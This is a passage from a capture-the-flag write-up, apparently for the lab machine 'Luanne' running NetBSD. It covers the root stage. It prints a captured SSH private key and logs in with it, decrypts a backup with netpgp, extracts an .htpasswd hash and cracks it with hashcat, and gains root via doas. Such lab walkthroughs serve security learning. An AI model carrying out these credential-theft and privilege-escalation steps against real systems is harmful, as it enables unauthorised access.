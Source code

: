 {% highlight text %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
Icxo9PpLUYzecwdU3LqJlzjFga3kG7VdSEWm+C1fiI4LRwv/iRKyPPvFGTVWvxDXFTKWXh
0DpaB9XVjggYHMr0dbYcSF2V5GMfIyxHQ8vGAE+QeW9I0Z2nl54ar/I/j7c87SY59uRnHQ
kzRXevtPSUXxytfuHYr1Ie1YpGpdKqYrYjevaQR5CAFdXPobMSxpNxFnPyyTFhAbzQuchD
ryXEuMkQOxsqeavnzonomJSuJMIh4ym7NkfQ3eKaPdwbwpiLMZoNReUkBqvsvSBpANVuyK
BNUj4JWjBpo85lrGqB+NG2MuySTtfS8lXwDvNtk/DB3ZSg5OFoL0LKZeCeaE6vXQR5h9t8
3CEdSO8yVrcYMPlzVRBcHp00DdLk4cCtqj+diZmR8MrXokSR8y5XqD3/IdH5+zj1BTHZXE
pXXqVFFB7Jae+LtuZ3XTESrVnpvBY48YRkQXAmMVAAAFkBjYH6gY2B+oAAAAB3NzaC1yc2
EAAAGBAL18SQW5uFSnE9hwASldis4fRnGrcxCUcr7+AAGpbd+PZ3Hw5DHxQSHMaPT6S1GM
3nMHVNy6iZc4xYGt5Bu1XUhFpvgtX4iOC0cL/4kSsjz7xRk1Vr8Q1xUyll4dA6WgfV1Y4I
GBzK9HW2HEhdleRjHyMsR0PLxgBPkHlvSNGdp5eeGq/yP4+3PO0mOfbkZx0JM0V3r7T0lF
8crX7h2K9SHtWKRqXSqmK2I3r2kEeQgBXVz6GzEsaTcRZz8skxYQG80LnIQ68lxLjJEDsb
...
{% endhighlight %}

{% highlight sh %}
ssh -i key r.michaels@luanne
{% endhighlight %}

And we have access to the box as `r.michaels` now !
The user flag is inside the `/home/r.michaels` folder.

## Root

There is another folder that caught my eyes here `/home/r.michaels/backups`. 
Inside of it, there is a `.enc` file.

I tried different tools like `openssl` or `gpg` to decrypted it but wasn't able to decrypt that file. Remember that we are inside of a `NetBSD` system so, we should use the specific tools from <strong>NetBSD</strong>. After a quick search on Google, I've found a tool called `netpgp`.

Let's try it:

{% highlight sh %}
netpgp --decrypt --output=/var/mail/backup.tar.gz ./backups/devel_backup-2020-09-16.tar.gz.enc
{% endhighlight %}

Then decompress the archive:

{% highlight sh %}
cd /var/mail/ && tar -xvf backup.tar.gz
{% endhighlight %}

Inside of the extracted folders, I have a few files and another password inside the `devel-2020-09-16/www/.htpasswd` file:

> webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.

Let's use `hashcat` again and crack it !

{% highlight sh %}
echo -n "\$1\$6xc7I/LW\$WuSQCS6n3yXsjPMSmwHDu." > hash-root && hashcat -m 500 hash-root /usr/share/wordlists/rockyou.txt
{% endhighlight %}

By using `doas` and the new password, I now have root access on the box !

{% highlight sh %}
doas id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
{% endhighlight %}

<strong>Rooted ;)</strong>
